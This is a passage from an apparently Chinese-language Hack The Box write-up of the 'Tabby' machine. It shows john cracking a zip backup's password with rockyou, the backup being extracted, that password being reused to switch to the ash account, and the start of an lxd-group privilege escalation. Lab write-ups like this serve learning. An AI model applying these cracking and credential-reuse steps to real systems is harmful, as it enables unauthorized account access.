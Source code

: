 ```
破解获取到一个密码
```
┌──(root💀kali)-[~/htb/Tabby]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2021-12-31 03:15) 0.7246g/s 7509Kp/s 7509Kc/s 7509KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

解密zip
```
┌──(root💀kali)-[~/htb/Tabby]
└─# unzip 16162020_backup.zip
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```
然而没有找到任何有用的文件，尝试 使用破解的密码登陆ash的账号

```
tomcat@tabby:~$ su ash
su ash
Password: admin@it

ash@tabby:/opt/tomcat$ id 
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:/opt/tomcat$ whoami
whoami
ash

```

成功了。

# root

查看组用户信息，发现ash账号在lxd用户组
```
ash@tabby:/var/lib/tomcat9$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
